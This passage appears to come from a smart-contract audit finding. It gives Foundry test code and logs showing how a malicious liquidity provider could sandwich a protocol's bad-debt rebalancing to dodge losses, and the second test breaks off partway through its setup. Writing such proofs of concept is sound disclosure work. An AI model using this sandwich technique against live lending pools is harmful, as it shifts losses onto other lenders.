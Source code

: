  For the first case where the ```maliciousLP``` will not sandwich the ```rebalanceBadDebt``` call, you can add this test in ```LiquidationTest.t.sol``` and run ```forge test --mt testLiquidateBadDebtWithMaliciousNOTSandwichingIt -vvvv``` :

```solidity
    function testLiquidateBadDebtWithMaliciousNOTSandwichingIt() public {
        vm.startPrank(user);
        asset2.approve(address(positionManager), 20e18);
        asset2.mint(user, 20e18);

        // User deposit 20e18 asset2, borrow 1e18 asset1.
        Action[] memory actions = new Action[](4);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 20e18);
        actions[2] = addToken(address(asset2));
        actions[3] = borrow(fixedRatePool, 1e18);
        positionManager.processBatch(position, actions);
        vm.stopPrank();
        assertTrue(riskEngine.isPositionHealthy(position));

        // Modify asset2 price from 1eth to 0.01eth to make position insolvent.
        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.01e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
        assertFalse(riskEngine.isPositionHealthy(position));

        console.log("Assets of maliciousLP before : ", pool.convertToAssets(pool.balanceOf(maliciousLP, fixedRatePool), pool.getTotalAssets(fixedRatePool), pool.balanceOf(maliciousLP, fixedRatePool) + pool.balanceOf(lender, fixedRatePool)));

        // Owner liquidates the insolvent position.
        vm.startPrank(protocolOwner);
        positionManager.liquidateBadDebt(position);
        vm.stopPrank();

        console.log("Assets of maliciousLP after: ", pool.convertToAssets(pool.balanceOf(maliciousLP, fixedRatePool), pool.getTotalAssets(fixedRatePool), pool.balanceOf(maliciousLP, fixedRatePool) + pool.balanceOf(lender, fixedRatePool)));
    }
```
It is clear from the logs that assets of ```malicousLP``` (and the other ```lender``` LP of course) got slashed due to this event :
```md
Logs:
  Assets of maliciousLP before :  100000000000000000000
  Assets of maliciousLP after:    99500000000000000000
```

Let's now see what happens if he decide to sandwich the rebalancing. For this case, add this test in ```LiquidationTest.t.sol``` and run ```forge test --mt testLiquidateBadDebtWithMaliciousSandwichingIt -vvvv``` :

```solidity
    function testLiquidateBadDebtWithMaliciousSandwichingIt() public {
        vm.startPrank(user);
        asset2.approve(address(positionManager), 20e18);
        asset2.mint(user, 20e18);

        // User deposit 20e18 asset2, borrow 1e18 asset1.
        Action[] memory actions = new Action[](4);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 20e18);
        actions[2] = addToken(address(asset2));
        actions[3] = borrow(fixedRatePool, 1e18);
        positionManager.processBatch(position, actions);
        vm.stopPrank();
```